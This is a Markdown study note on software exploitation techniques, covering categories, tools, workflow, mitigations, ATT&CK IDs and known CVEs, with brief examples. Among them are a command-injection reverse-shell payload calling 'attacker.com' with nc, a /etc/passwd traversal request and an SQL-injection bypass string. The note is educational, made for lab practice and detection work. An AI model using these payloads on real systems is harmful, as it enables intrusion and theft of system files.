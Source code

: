 **Exploitation techniques** are methods used to abuse software vulnerabilities or misconfigurations to **gain unauthorized access**, **elevate privileges**, or **execute code** on target systems. These techniques are commonly used in **penetration testing**, **CTFs**, **red teaming**, and **adversary emulation**.

---

## 🎯 Exploitation Goals

- Achieve **remote or local code execution**
- Gain **initial access** or **privilege escalation**
- Perform **lateral movement** or **post-exploitation**
- Bypass **security controls** (DEP, ASLR, AV)
- Deliver **payloads** (e.g., reverse shells, Meterpreter)

> Exploitation bridges the gap between **vulnerability discovery** and **system compromise**.

---

## 🧱 Common Exploitation Categories

| Category               | Description                                         |
|------------------------|-----------------------------------------------------|
| **Memory Corruption**   | Overwriting memory structures (stack, heap)         |
| **Input Injection**     | Unsanitized input leads to code execution           |
| **Authentication Bypass** | Logic flaws in auth systems                      |
| **Command Injection**   | Execution of system commands via user input         |
| **File Upload Bypass**  | Uploading malicious files to gain code execution    |
| **Deserialization Attacks** | Abusing object deserialization                 |
| **Race Conditions**     | Exploit timing flaws in system or application logic |
| **Misconfiguration Exploits** | Default creds, open ports, insecure settings |

---

## 🔧 Core Techniques & Examples

### 🔓 Buffer Overflow
```c
char buffer[64];
gets(buffer); // No bounds check = exploit
```

- Overwrite return address, redirect execution to shellcode

### 📜 SQL Injection
```
SELECT * FROM users WHERE name = '$user_input';
```

- Inject `admin' --` to bypass authentication

### 🐚 Command Injection
```
ping $user_input
```

- Inject `; nc attacker.com 4444 -e /bin/sh`

### 📂 Directory Traversal
```
GET /download?file=../../../../etc/passwd
```

- Access restricted files on server

## 🛠 Exploitation Tools

|Tool|Use Case|
|---|---|
|**Metasploit**|Exploit delivery and payload management|
|**Exploit-DB**|Database of public exploits|
|**Searchsploit**|Offline Exploit-DB search|
|**Burp Suite**|Web app testing and injection|
|**pwntools**|Python library for pwn scripting|
|**Impacket**|SMB, NTLM relay, lateral movement|
|**Fuzzers**|Discover unknown vulnerabilities|
|**GDB + pwndbg**|Debugging and exploit development|

---

## 🧠 Exploit Staging Workflow

1. **Recon & Enumeration**
2. **Identify vulnerability**
3. **Create PoC** (proof of concept)
4. **Develop exploit logic**
5. **Bypass protections** (ASLR, DEP, etc.)
6. **Deliver payload**
7. **Post-exploitation** (e.g., privilege escalation)

---

## 🛡 Exploitation Mitigations

|Defense|Prevents / Reduces Risk|
|---|---|
|**DEP/NX**|Blocks code execution in data segments|
|**ASLR**|Randomizes memory layout|
|**Stack Canaries**|Detects stack overflows|
|**Input Validation**|Blocks injections and XSS/SQLi|
|**Privilege Separation**|Limits impact of exploited services|
|**Patching**|Closes known vulnerabilities|

---

## 🔍 Exploitation in MITRE ATT&CK

|Technique ID|Technique|
|---|---|
|`T1203`|Exploitation for Client Execution|
|`T1068`|Exploitation for Privilege Escalation|
|`T1210`|Exploitation of Remote Services|
|`T1499`|Exploit Public-Facing Application|
|`T1055`|Process Injection|

---

## 📘 Real-World Examples

|Exploit/CVE|Description|
|---|---|
|**CVE-2017-0144**|EternalBlue (SMBv1 RCE)|
|**CVE-2021-44228**|Log4Shell (JNDI injection)|
|**CVE-2019-0708**|BlueKeep (RDP remote code execution)|
|**CVE-2020-1472**|Zerologon (Netlogon flaw)|

---

## 🔗 Related Topics

- [[Exploit Development]]
- [[Metasploit]]
- [[Payload Creation with msfvenom]]
- [[Reverse Engineering]]
- [[Memory Corruption]]
- [[Static vs Dynamic Analysis]]
- [[Vulnerability Scanning]]

---

## 🏷 Suggested Tags

#exploitation #exploit_dev #buffer_overflow #vulnerability #red_team #mitre_attack #ctf #payloads

---

## ✅ To Do

-  Practice exploiting stack overflows in a lab
-  Build custom payload using `msfvenom` and deliver via exploit
-  Test known CVE against a vulnerable VM (e.g., Metasploitable)
-  Analyze exploit chain and build detection for SIEM